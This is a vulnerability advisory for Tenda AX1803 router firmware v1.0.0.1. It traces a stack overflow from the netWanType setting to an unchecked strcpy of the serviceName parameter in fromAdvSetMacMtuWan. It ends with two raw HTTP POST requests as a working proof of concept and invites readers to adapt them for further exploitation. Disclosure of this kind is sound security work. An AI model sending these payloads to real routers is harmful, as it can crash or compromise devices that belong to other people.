 # Tenda AX1803 v1.0.0.1 contains a stack overflow via the serviceName parameter in the function fromAdvSetMacMtuWan

## Firmware infomation

- Manufacturer's address：https://www.tenda.com.cn/
- Affected firmware infomation：https://www.tenda.com.cn/download/detail-3421.html
- Affected firmware version：v1.0.0.1

## Vulnerability Description

The `form_fast_setting_internet_set` function in Tenda AX1803 v1.0.0.1 first extracts the value of the `netWanType` parameter from the POST request, and then passes this value to the `sub_569BC` function as the third parameter. By controlling the content of the POST request, we set the value of the `netWanType` parameter to 2, which is then passed as the third parameter to the `sub_569BC` function.
![QQ截图20240319205702](https://github.com/re1wn/IoT_vuln/assets/73987057/d399fc96-7563-4810-bcaa-d7906788ec41)
In the `sub_569BC` function, the `sprintf` function is utilized to concatenate the `wan1.connecttype` string. Subsequently, the `SetValue` function is employed to assign the value of the environment variable `wan1.connecttype` to the third parameter `a3` passed into the `sub_569BC` function, with a value of 2.
![QQ截图20240319205842](https://github.com/re1wn/IoT_vuln/assets/73987057/aec0e329-4f55-4fc9-af3c-990a4283b9dd)
The focus moves to the `fromAdvSetMacMtuWan` function. Here, the value "2" obtained from the POST request for the environment variable string `wan1.connecttype` is passed to `v6`, triggering the execution of the `sub_8C594` function.
![QQ截图20240319211358](https://github.com/re1wn/IoT_vuln/assets/73987057/9f6e0dae-1e37-472c-b996-24ac6b0e64ab)
In the `sub_8C594` function, the value of the `serviceName` parameter is extracted from the POST request, and then passed to the `strcpy` function, resulting in a buffer overflow.
![QQ截图20240319211701](https://github.com/re1wn/IoT_vuln/assets/73987057/026d7e87-40c4-4cec-9244-3f7048488b13)
##POC

First SetValue with poc:

```
POST /goform/fast_setting_internet_set HTTP/1.1
Host: 192.168.76.149
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: password=002a77b3f3cdec7e900d0be9a911fb6bpvwtgb
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

netWanType=2&adslUser=aaaa&adslPwd=aaaa
```

Then call fromAdvSetMacMtuWan and trigger overflow.

```
POST /goform/AdvSetMacMtuWan HTTP/1.1
Host: 192.168.76.149
Content-Length: 56
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.97 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.76.149
Referer: http://192.168.76.149/mac_clone.html?random=0.7547959184452664&
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

wanMTU=1285&wanSpeed=0&cloneType=0&mac=00:00:00:00:00:01&serviceName=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&serverName=
```

We trigger a stack overflow vulnerability after sending the poc, and you may modify this for further exploiting.

